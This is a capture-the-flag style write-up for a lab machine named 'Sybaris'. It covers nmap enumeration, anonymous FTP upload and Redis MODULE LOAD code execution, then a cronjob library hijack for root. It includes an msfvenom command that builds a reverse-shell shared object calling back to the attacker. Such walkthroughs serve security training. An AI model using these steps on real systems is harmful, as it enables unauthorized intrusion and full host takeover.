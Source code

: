 # Sybaris

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.243.93 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 20:45 +08
Nmap scan report for 192.168.243.93
Host is up (0.17s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
6379/tcp  open   redis
```

I ran a detailed scan to enumerate further:

```
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.231
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2194ded36964a84da8f0b50aeabd02ad (RSA)
|   256 674245198bf5f9a5a4cffb8748a266d0 (ECDSA)
|_  256 f3e229a3411e761eb1b746dc0bb99177 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sybaris - Just another HTMLy blog
| http-robots.txt: 11 disallowed entries 
| /config/ /system/ /themes/ /vendor/ /cache/ 
| /changelog.txt /composer.json /composer.lock /composer.phar /search/ 
|_/admin/
|_http-generator: HTMLy v2.7.5
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22
6379/tcp open  redis   Redis key-value store 5.0.9
```

The most interesting thing was the Redis instance because it was a version that was vulnerable to the Redis Module exploit.&#x20;

### Rabbit Holes

Port 80 was full of Rabbit Holes, nothing was useful about it.

### FTP Creds --> RCE

The FTP service allowed for anonymous access:

```
$ ftp 192.168.243.93
Connected to 192.168.243.93.
220 (vsFTPd 3.0.2)
Name (192.168.243.93:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||10098|).
150 Here comes the directory listing.
drwxrwxrwx    2 0        0               6 Apr 01  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||10098|).
150 Here comes the directory listing.
226 Directory send OK.
```

Not sure what this directory is used for. The Redis RCE exploit requires that we put a shared object file within the file system, then use Redis's `MODULE LOAD` to run it.&#x20;

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

I transferred this file over to the `pub` directory and tried to find the correct directory to load my module. After a bit of guessing, I found that we uploaded `module.so` to `/var/ftp`.&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

We can then easily get a reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Library Hijack

I ran a `linpeas.sh` scan, and found this `cronjob` running:

<figure><img src="../../../.gitbook/assets/image (1) (1) (12).png" alt=""><figcaption></figcaption></figure>

Turns out that there are some directories that we can write to within the `LD_LIBRARY_PATH`, and the cronjob running `log-sweeper` doesn't have a `utils.so` specified:

```
[pablo@sybaris ~]$ ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007fff4439a000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007fe90fd0e000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fe9100dc000)
```

This was pretty easy to exploit. Just generate this reverse shell:

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=80 -f elf-so > utils.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
```

Then transfer it to the `/usr/local/lib/dev` directory and wait. Be sure to run `chmod 777 utils.so` on it just in case. The cronjob runs every minute, so the connection takes about 30 seconds to appear:

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Rooted!
